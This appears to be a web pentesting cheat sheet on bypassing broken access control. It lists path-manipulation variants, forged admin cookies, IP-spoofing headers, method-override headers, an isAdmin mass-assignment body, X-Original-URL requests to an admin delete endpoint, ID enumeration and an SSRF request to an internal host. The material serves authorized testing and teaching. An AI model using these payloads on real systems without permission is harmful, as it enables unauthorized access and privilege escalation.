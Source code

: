 ```yaml
---
title: Broken Access Control
description: The attacking methodology of broken access control in web applications. If we got 401 or 403 HTTP response, try to bypass it using the following methods in this post.
tags:
    - Web
refs:
date: 2024-03-17
draft: false
---
```


## Manipulate Path

```sh
/admin
/Admin
/ADMIN

/./admin
/.;/admin
/;/admin
/admin/
/admin/.

/admin%0d
/admin%0a
/admin%0d%0a

# Add a tab (or multiple tabs) after the path, not escape characters (`\t`).
# It's recommended to use BurpSuite Proxy.
/admin		HTTP/1.1
```

<br />

## Change Header Values

### Cookie

We may be able to get access to the login-required pages.

```sh
Cookie: admin=true
Cookie: isAdmin=true
Cookie: access=1
Cookie: access=true
# Insert another user value
Cookie: session=<another_user_value>
Cookie: access_token=<another_user_value>
```

### IP Spoofing

```txt
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```

### User Agent

Sometimes we can access another server by replacing the User Agent with the specific one.

```bash
User-Agent: <custom_user_agent>
```

<br />

## Change Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## POST Parameters

```sh
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

### X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## GET Parameters

```sh
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

<br />

## Access Page via SSRF

If there is another website that is owned by same orginazation, we may be able to see the target website with SSRF.

```bash
https://example.com?url=https://admin.example.com/
```